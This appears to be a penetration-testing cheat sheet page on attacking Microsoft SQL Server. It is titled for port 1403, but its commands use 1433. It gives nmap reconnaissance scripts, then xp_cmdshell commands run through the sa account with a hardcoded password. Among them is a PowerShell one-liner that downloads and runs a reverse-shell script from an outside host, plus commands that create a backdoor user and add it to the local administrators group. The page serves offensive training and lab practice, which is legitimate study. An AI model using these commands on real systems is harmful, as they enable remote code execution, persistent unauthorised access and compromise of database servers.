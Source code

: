 # Port 1403 - MSSQL

Please check [MSSQL](https://app.gitbook.com/o/sbYQpaBkV0ueQjvLIdTt/s/nA4bAkddGXesk1QCLYAY/~/changes/192/database-attacks/mssql) section in Database Attacks.

#### Reconnaissance

{% code overflow="wrap" %}
```bash
# Check the detail of nmap mssql reconnasance
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.10.10.143
```
{% endcode %}

#### Command Execution

{% code overflow="wrap" %}
```bash
# Just in case when you see some RCE result from the recon above
sudo nmap -Pn -n -sS --script=ms-sql-xp-cmdshell.nse 10.10.10.143 -p1433 --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="whoami"

# Reverse sehll 
sudo nmap -Pn -n -sS --script=ms-sql-xp-cmdshell.nse 10.10.10.143 -p1433 --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="powershell -c iex(new-object net.webclient).downloadstring('http://192.168.142.141/shell.ps1')"

# Ping
sudo nmap -Pn -n -sS --script=ms-sql-xp-cmdshell.nse 10.11.1.31 -p1433 --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="ping 192.168.119.128"

# Create a backdoor user
sudo nmap -Pn -n -sS --script=ms-sql-xp-cmdshell.nse 10.11.1.31 -p 1433 --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="net user iptracej iptracej123 /add"

# Remote Desktop user
sudo nmap -Pn -n -sS --script=ms-sql-xp-cmdshell.nse 10.11.1.31 -p 1433 --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="net localgroup administrators iptracej /add"
```
{% endcode %}

